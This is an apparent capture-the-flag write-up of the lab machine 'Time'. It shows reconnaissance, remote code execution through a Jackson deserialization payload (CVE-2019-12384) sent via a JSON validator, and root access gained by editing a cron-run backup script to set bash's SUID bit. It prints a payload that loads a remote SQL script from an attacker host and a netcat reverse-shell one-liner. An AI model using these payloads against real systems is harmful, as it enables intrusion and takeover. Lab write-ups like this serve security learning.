

MEDIUM - TIME
1. Recon
Nmap
nmap finds two open ports: SSH (22) and HTTP (80)

The NSE (Nmap Scripting Engine) finds the following information:
- The box is using Ubuntu.
- The version of the SSH service is OpenSSH 8.2p1
- The HTTP server is using Apache httpd 2.4.41
- The title of the website suggests it is an Online JSON parser

Website - TCP 80
Before connecting to the page, I have run gobuster to find hidden directories and files within the server, but the results aren’t interesting at all. Visiting the website I see a ‘Online JSON beautifier & validator’ software. After testing it a little bit I can see that the ‘Beautify’ option works properly, but the ‘Validate’ options shows an error when the input is anything else than ‘true’, ‘false’ or ‘null’. That error is the following: Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'a': was expecting ('true', 'false' or 'null'). After looking it up and reading a couple forums I see that Jackson is a JSON parser for Java.


2. Gaining Access
Searching ‘Java Jackson RCE’ I see there are a couple existing CVE’s for Jackson (CVE-2020-9547 and CVE-2019-12384) which lead to Remote Code Execution, but it seems they do not work. After reading a couple articles about Java deserialization and Jackson deserialization, I have come across with another article which explains CVE-2019-12384. Following the steps of the latter article I create a inject.sql file, start a http server with python in port 8000, and run its content sending ["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http:\/\/10.10.14.19:8000\/inject.sql'"}] through the JSON validator. After a few seconds, my netcat listener receives the id command executed in the target system.


The reason why this works is because Jackson’s default typing is enabled. This allows JSON to specify which Java class should be instantiated during deserialization, enabling not only the deserialization of known classes but also the loading and instantiation of new classes. Using ["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:"}], the class DriverManagerConnectionSource is loaded and the setter method setUrl(String url) is called with the provided url ({"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http:\/\/10.10.14.19:8000\/inject.sql'"}). When that JDBC (Java Database Connectivity) URL is called, an in-memory H2 database is instantiated, allowing the execution of SQL scripts from a remote URL via the INIT=RUNSCRIPT FROM query. However, H2 doesn’t allow the direct execution of system commands through SQL queries. This limitation can be bypassed by creating Java aliases, which invoke Java methods directly from SQL. This lets the attackers execute their own scripts by setting a remote HTTP server and loading their own scripts from there.
Now that everything is explained, I will try getting a reverse shell modifying the inject.sql script to execute rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 4444 >/tmp/f. It works and I get command execution in the system as the user pericles.


3. Privilege Escalation
Root
Running pspy in the target system, I discover a process with UID=0 (running as root) which is executing periodically the file /usr/bin/timer_backup.sh. Checking the permissions of that script, I find that it belongs to pericles, so I can modify it and it will be executed as root.


I add a command to activate the SUID bit of bash and once the script is executed, I can run bash -p to get a shell with root permissions. Now I can read /root/root.txt and submit the flag.